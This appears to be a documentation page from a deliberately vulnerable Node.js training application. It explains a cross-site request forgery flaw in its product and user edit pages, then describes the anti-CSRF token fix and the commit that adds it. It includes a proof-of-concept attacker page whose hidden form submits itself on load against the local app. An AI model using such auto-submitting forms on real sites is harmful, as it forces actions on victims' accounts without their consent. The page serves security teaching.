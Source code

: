 # Cross-site Request Forgery

## CSRF in Add/Edit product, User Edit

The application is vulnerable to a Cross-sites-Request-Forgery in `Product Management` feature. The application fails to implement anti-CSRF token to prevent forced browsing.

http://127.0.0.1:9090/app/modifyproduct

http://127.0.0.1:9090/app/useredit

This issue can be exploited by an attacker by hosting a malicious page like the one below and tricking the victim onto visiting it. The below example will add a new product on behalf of the victim on visiting a crafted URL like `http://youtube.com.xyz.nxd/watch/v=cute-kitten` by the attacker

*Attacker's Webpage*
```html
<html>
    <body onload='document.hidden_form.submit()'>
        <form name="hidden_form" method="POST" action="http://127.0.0.1:9090/app/modifyproduct">
            <input type="hidden" name="name" value="Hacked">
            <input type="hidden" name="code" value="hacked">
            <input type="hidden" name="tags" value="hack">
            <input type="hidden" name="description" value="This is a hacked product">
        </form>
    </body>
</html>
```

**Solution**

CSRF vulnerabilities can be fixed by ensuring anti-CSRF tokens are needed for successful form submission.

This can be done by using a module like [csurf](https://www.npmjs.com/package/csurf), and can save time needed to correctly implement your own logic.

**Fixes**

Implemented in the following files

- *routes/app.js*
- *core/appHandler.js*
- *views/app/modifyproducts.ejs*
- *views/app/useredit.ejs*

The fix has been implemented in this [commit](https://github.com/appsecco/dvna/commit/2c88ab87f19a9d124c925d33f346ec3897038eea)

**Reference**

- https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)
- https://github.com/expressjs/csurf
